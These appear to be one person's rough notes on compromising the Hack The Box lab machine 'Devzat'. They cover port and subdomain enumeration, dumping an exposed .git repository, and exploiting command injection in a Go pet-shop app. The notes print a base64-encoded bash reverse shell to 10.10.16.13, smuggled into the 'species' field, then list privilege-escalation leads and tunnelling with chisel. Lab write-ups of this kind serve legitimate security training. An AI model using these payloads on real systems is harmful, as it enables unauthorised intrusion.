




Name: Devzat
IP: 10.10.11.118
OS: Linux

##**Enumeration::**##
nmap::
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
|_  256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: devzat - where the devs at
8000/tcp open  ssh     (protocol 2.0)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-Go
| ssh-hostkey:
|_  3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
1 service unrecognized despite returning data.
SF-Port8000-TCP:V=7.91%I=7%D=1/30%Time=61F72B44%P=x86_64-pc-linux-gnu%r(NU
SF:LL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

dirb::
/assets, /images, /javascript, /server-status

http:
UN: patrick@devzat.htb
`ssh -l [username] devzat.htb -p 8000 `
+ w/ patrick:: Nickname reserved for local use, please choose a different one.
+ `id/ :: bad5f40e4a8de24f154becbbe6939ebaca4166aff3dd5b12e477a40a10193092`
+ id/ <user> Get a unique ID for a user (hashed IP)

nikto::
+ Server may leak inodes via ETags, header found with file /, inode: 197f, size: 5c570e80059d3, mtime: gzip
+ Allowed HTTP Methods: HEAD, GET, POST, OPTIONS
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3092: /LICENSE.txt: License file found may indicate something
  + Creative Commons Attribution 3.0 Unported

ffuf::Nothing
gobuster:: gobuster vhost -u http://devzat.htb/ -w /DNS/shubs-domains.txst -q | grep 200 :: http://pets.devzat.htb
wfuzz:: 
`wfuzz -t 20 --hc 400,302 -H "HOST: FUZZ.devzat.htb" -w /opt/Seclist/Discovery/DNS/subdomains-top1million-110000.txt http://devzat.htb`::
+ http://pets.devzat.htb 
`wfuzz --sc 400,301 -w /opt/Seclist/Discovery/DNS/subdomains-top1million-110000.txt http://pets.devzat.htb/FUZZ`::
+ /css, /build, /.git see 
  + [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-web/git)
    + view changes with git diff

##**git-dumper::**## see 
`
mkdir -p /tmp/devzat && chmod 777 /tmp/devzat
./git_dumper.py http://pets.devzat.htb/.git /tmp/devzat/
`
 cat main.go::
cmd := exec.Command("sh", "-c", "characteristics/"+species)
    + revshell injection:
burpsuite:: http//pets.devzat.htb
+ nc shell doesnt work
`echo -n 'bash -i >& /dev/tcp/10.10.16.13/5555' |base64::YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xMy81NTU1 ` 
+ burp request:: 
`broken shell:: TODO:: stablize` see 
+ still doesnt work::
  + species":"cat; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xMy81NTU1ICY=|base64 -d|fg %1|/bin/bash

TODO:
listening on [any] 5555 ...
connect to [10.10.16.13] from (UNKNOWN) [10.10.11.118] 50316
bash: cannot set terminal process group (845): Inappropriate ioctl for device
bash: no job control in this shell
patrick@devzat:~/pets$ exit
[enable_job_ctrl](https://stackoverflow.com/questions/690266/why-cant-i-use-job-control-in-a-bash-script)

##**Gain foothold::**##

FIX:: output bash shell 0>&1 See 

/home/catherine/user.txt permission denied

##**linpeas.sh::**##
+docker port 8086
-rwxr-sr-x 1 root crontab 43K Feb 13  2020 /usr/bin/crontab
-rwxr-sr-x 1 root shadow 31K May 28  2020 /usr/bin/expiry
-rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwxr-sr-x 1 root shadow 83K May 28  2020 /usr/bin/chage

/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

/etc/ld.so.conf                                                                                                   
include /etc/ld.so.conf.d/*.conf
/etc/ld.so.conf.d
/etc/ld.so.conf.d/fakeroot-x86_64-linux-gnu.conf
/usr/lib/x86_64-linux-gnu/libfakeroot
/etc/ld.so.conf.d/libc.conf
/usr/local/lib
/etc/ld.so.conf.d/x86_64-linux-gnu.conf
/usr/local/lib/x86_64-linux-gnu
/lib/x86_64-linux-gnu
/usr/lib/x86_64-linux-gnu

systemd+     510  0.0  0.3  18408  7396 ?        Ss   Jan31   0:03 /lib/systemd/systemd-networkd
└─(Caps) 0x0000000000003c00=cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw

/usr/bin/docker                                                                                                   
/usr/bin/runc

PORTS::
53, 8086, 22, 8843, 5000

patrick@devzat:~$ curl -vvv 127.0.0.1:8086
*   Trying 127.0.0.1:8086...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8086 (#0)
* Mark bundle as not supporting multiuse
  < HTTP/1.1 404 Not Found
  < Content-Type: text/plain; charset=utf-8
  < X-Content-Type-Options: nosniff
  < X-Influxdb-Build: OSS
  < X-Influxdb-Version: 1.7.5
  < Date: Wed, 02 Feb 2022 19:57:43 GMT
  < Content-Length: 19

##**Attempts::**##
+ pwnkit - no
+ GTFObins - docker no, 
+ getcap -r / 2>/dev/null ??
+ serve influxdb:8086 with 
  + chisel: ./chisel server -p 8000 --reverse
  + chisel: ./chisel client 10.10.16.13:8000
    + should server 8086

https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933 - no python
https://github.com/twistlock/RunC-CVE-2019-5736 - No luck
https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/ maybe? 

Font Awesome Free 5.9.0 by @fontawesome - https://fontawesome.com
html5up.net 

##**References::**##
[git-dumper](https://github.com/arthaud/git-dumper)
[exploit](https://book.hacktricks.xyz/pentesting/8086-pentesting-influxdb)
[chisel](https://github.com/jpillora/chisel)